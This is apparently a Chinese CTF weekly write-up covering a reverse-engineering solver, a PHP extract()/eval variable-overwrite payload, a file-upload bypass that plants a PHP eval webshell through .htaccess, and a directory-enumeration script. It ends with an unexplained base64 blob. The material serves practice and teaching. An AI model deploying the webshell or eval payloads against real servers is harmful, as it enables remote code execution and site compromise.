# Tw1t-周报

*不要学RE会变的不幸*


## 1. [buuctf]-SimpleRev

### 本题知识点：

```
小端序和大端序，字符串与16进制的转换

```

附件下载地址：https://files.buuoj.cn/files/7458c5c0ce999ac491df13cf7a7ed9f1/SimpleRev

文件下载好后，拖入ida_x64中打开，字符串窗口寻找可疑字符串



双击跟进，ctrl+X查询调用



F5反编译查看伪C代码



逆向分析伪C代码


如果text = str2

输出"Congratulation"

关键点在

```
str2[v2] = (v1 - 39 - key[v3 % v5] + 97) % 26 + 97;
```

我们要明确的一点是，str2和text其中必定是有一个是flag的。

__注意在做RE题目的时候一定要明确一点就是，flag并不是像web题，我们通过web服务读取到的就是flag。__

__RE题目的逻辑一般是附件提供的程序运行后需要你输入一个flag1，它会在程序里与原先设定好的一个变量flag2做比较，如果正确就输出success。__

__但是，不要陷入盲区，题目要你提交的的正是flag1，它一般会在用户输入flag1进行一系列运算之后得到flag3再和原本设定的flag2做比较。__

__我们一般的思路就是找到程序里设定好的flag2，再找到用户输入flag1进行了什么运算，最后通过脚本来进行逆向运算还原flag1。__

__在这里提一嘴，这是做RE题的一个核心的思路，初学者最容易陷入的误区就是不知道自己该提交什么，如果你看到这里还没有明白，回头再仔细看一次。__

我们回到正轨，本题的flag3就是str2;

运算过程就是str2[v2] = (v1 - 39 - key[v3 % v5] + 97) % 26 + 97;

flag2就是text;

那解题的第一步就应该是先找到flag2(text)的值


text=join（key3，v9）

双击跟进join（）函数，看看它干了什么




#### 知识点补充：

Strcpy()函数:




其实就是把src指向的字符复制给dest

strcat（）函数：




其实就是把src指向的字符拼接到dest指向的字符串的末尾。


ok，那么我们就可以很清楚的了解到text就是key3和v9拼接而成的。


那我们继续跟进key3




key3是kills

那v9是什么



通过这段代码不难看出v9就是字符串 wodah (十六进制转换字符串)

```那么txt就可以得到是killswodah
则text=killswodah
```

现在的思路就是找flag3的计算过程

再重申一遍重点

```
str2[v2] = (v1 - 39 - key[v3 % v5] + 97) % 26 + 97;
```

我们现在需要key




把key1复制给key，把src拼到key后面。

再看这张图，

```
 v11 = __readfsqword(0x28u);
  *(_QWORD *)src = 0x534C43444ELL;
```

src定义为16进制 0x534C43444ELL



```
src的值是SLCDN
```


双击跟进key1，查看到key1是



```
key1=ADSFK
```

那么key就是

```
key=ADSFKSLCDN
```

继续看运算逻辑


这一段代码的意思大概是，得到输入v1，判断v1是不是大写字母，如果是大写字母转换成小写字母，进行str2元素赋值，如果不是大写字母，则就是小写字母，那么直接进行str2元素赋值。

到这里，我们已经把程序的运算的逻辑算清楚了。

```python
src = 'SLCDN'#大小端
v9 = 'wodah'#大小端
key1 = 'ADSFK'
key3 = 'kills'

text1 = key3 + v9       # 这里的text1相当于 text = key3 + v9
text2 = key1 + src      # 这里的text2相当于 key = key1 + src
text2 = text2.lower()   # 需要把大学字母变为小写字母

flag = ""
for i in range(0,len(text1)):
    for x in range(0,128):      # 这里用暴力求解
        if chr(x).isalpha():    # 这里要加上判断x是否是字符串，不然会求解出乱七八糟的答案。我就在这里卡了一段时间。。。
            temp = (x - 39 - ord(text2[i]) + 97) % 26 + 97
            # print(text1[i]+"   "+chr(temp)+"   "+chr(x))
            if text1[i] == chr(temp):   
                flag = flag + chr(x)
                break

print("flag{"+flag+"}")

```

进行一个逆向的脚本编辑运算，但是！如果这样就拿到flag那么就没必要写这道题了。

本题还有一个坑点就是大小端存储问题。

本题这个程序

src和v9两个十六进制是大端序，但是数据在内存中都是小端序，所以要将其，反转一下。

一般在CPU，x86都是小端序，但是IDA将之转换为了大端序。

所以正确的脚本应该是

```python
src = 'NDCLS'#倒过来
v9 = 'hadow'#倒过来
key1 = 'ADSFK'
key3 = 'kills'

text1 = key3 + v9       # 这里的text1相当于 text = key3 + v9
text2 = key1 + src      # 这里的text2相当于 key = key1 + src
text2 = text2.lower()   # 需要把大学字母变为小写字母

flag = ""
for i in range(0,len(text1)):
    for x in range(0,128):      # 这里用暴力求解
        if chr(x).isalpha():    # 这里要加上判断x是否是字符串，不然会求解出乱七八糟的答案。我就在这里卡了一段时间。。。
            temp = (x - 39 - ord(text2[i]) + 97) % 26 + 97
            # print(text1[i]+"   "+chr(temp)+"   "+chr(x))
            if text1[i] == chr(temp):   
                flag = flag + chr(x)
                break

print("flag{"+flag+"}")
```

终于拿到正确的flag



针对这个问题，大家可以自习百度了解一下，我也不懂...

小tips:一般re题目得到的是一串字符串，需要自己包上flag{}的壳，我直接写在脚本里了。

我的思路是，先写好脚本，然后提交flag，如果错误，再回来对相关我们自己转换来的字符串进行一个倒叙，再计算flag，再提交。

## 2.[ctfshow]我的眼里只有$

*请保持热爱，始终奔赴下一场山海*

###  本题知识点

```
extract()函数变量覆盖漏洞
```

首先打开环境，很简单的一段代码:

```php
<?php
error_reporting(0);
extract($_POST);
eval($$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_);
highlight_file(__FILE__);
```

对php有基本了解的话，可以一眼看出本题的关键:

我们需要$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_ =我们想要执行的命令;

extract()函数介绍



结合本题来说，

假设我们post传入`_=a`那么`$_=a`，如果在post传入`a=b`那么`$$_=b`
以此类推传入一定数量的参数就可以了，最后一个的值是我们要传入eval的代码。
不过这`$`属实是有点多

针对本题目,可以利用python脚本来进行变量覆盖，当然你自己手动打payload也可以

```python
import string
s = string.ascii_letters 
t='_=a&'
payload="phpinfo();"
for i in range(35):
    t+=s[i]+"="+s[i+1]+'&'

t+=s[i]+'='+payload
print(t)


```



```
_=a&a=b&b=c&c=d&d=e&e=f&f=g&g=h&h=i&i=j&j=k&k=l&l=m&m=n&n=o&o=p&p=q&q=r&r=s&s=t&t=u&u=v&v=w&w=x&x=y&y=z&z=A&A=B&B=C&C=D&D=E&E=F&F=G&G=H&H=I&I=J&I=phpinfo();
```

借助hackbar来进行一个post传参



看到成功执行了我们要执行的代码phpinfo（）

那我们现在只需要替换后面的命令，来找flag就行。




## 3.[ctfshow]源码泄露

*信息收集是一切渗透的前提*

### 本题知识点

```
本题没有知识点，十分简单的题.....我不会承认是用来水周报专门找的，我估计也没有人会看，就算会看我前面那个re写那么认真，中间插一个水字数的，怎么会被发现是吧0.0
```

由于本题太简单，直接描述做题过程：

打开环境→查看页面源代码→得到falg→提交→完事



## 4.[MRCTF2020]你传你🐎呢 

*看开一点，世界就是一个大的草台班子*

### 本题知识点

```
.htaccess应用和文件类型检测
```

bp抓包上传一句话木马

```php
<?php @eval($_POST['cx']);?>
```



发包到repeate模块，方便后面操作，sent。


改后缀为png上传



考虑可能还有文件类型检测，使用.htaccess配置文件来组合上传马子。

先试试改文件类型可以传上去不。


可以正常上传且有回显路径，那就没问题了，

配置.htaccess文件,上传。



成功上传且有回显路径

再传马子，改image/png 和后缀





复制回显地址：html后面的

和域名拼凑成url，用蚁剑连接

根目录下找到flag



## 5.【CTFhub】web-信息泄露-目录遍历_WriteUp

*多去尝试，错的多了才知道怎样做对*

### 本题知识点

```
1.web目录结构
2.python脚本编写能力
```

启动环境



点击开始寻找flag后



两种解法，一种就是一个个去点击，去找，其实文件不多，很容易就能找到，这里不讲，会用电脑都能找到。

第二中解法，python脚本的目录遍历

```python
#! /usr/bin/env python
# _*_  coding:utf-8 _*_
import requests

url = "http://challenge-7a1ed38a5677ee45.sandbox.ctfhub.com:10800/flag_in_here/"#目标url

for i in range(5):
    for j in range(5):
        # URL字符串拼接 
        url_test =url+"/"+str(i)+"/"+str(j)
        # 获取页面响应内容
        r = requests.get(url_test)
        # 设置编码方式
        r.encoding = 'utf-8' 
        # 查找是否存在 flag.txt
        get_file=r.text
        if "flag.txt" in get_file:
            print(url_test)

# 此程序只适用于flag.txt文件形式存在的flag 

```



代码实现逻辑能简单，建议自己练习写一下

访问得到的路径





*over~本期周报到此结束！*

---------------------------

IArkuLrku4DkuYjopoHop6Plr4bov5nmrrXmloflrZfvvJ/vvJ/vvJ/vvJ8KCui/mOacieS7gOS5iOaYr+S9oOaDs+eci+eahOWQl++8n++8n++8n++8nwoK5pei54S25L2g6Zey552A5rKh5LqL77yM6YCB5L2g5LiA6YGTUkXpopjnm67nrpfkuobvvIzorrDlvpfop6Plh7rmnaXnu5nmiJHor7TkuIDkuIvlkovlgZrnmoQwLjAKCumZhOS7tuS4i+i9veWcsOWdgDoKaHR0cHM6Ly94eWd6LmxhbnpvdW0uY29tL2lwRHlTMXZ3MjNyYwrlr4bnoIE6ZTVncw==
